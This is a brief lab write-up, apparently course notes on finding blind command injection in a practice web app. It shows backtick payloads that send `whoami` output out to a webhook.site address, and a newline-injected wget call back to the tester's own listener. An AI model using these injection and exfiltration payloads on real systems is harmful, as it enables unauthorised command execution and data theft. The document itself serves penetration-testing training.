

The website looks similar like previous but the output we are getting is different

Command: https://tcm-sec.com/idontexist

It look's like a this is blind comman injection
So will use Weekhook.site and will use back tick `` to run the command
https://webhook.site/e0edf9f6-fb9d-4bda-9d7c-22fbf2a697c3?``
Command: https://webhook.site/e0edf9f6-fb9d-4bda-9d7c-22fbf2a697c3?`whoami`

And got the output

The Mentor wants to see if we can triggrer a new line and have another line of execution the as we know that it's a linux machine that's running.
our IP address for now : 192.168.17.133
Commnad :https://tcm-sec.com \n wget 0.0.0.0:8080/test
python3 -m http.server 8080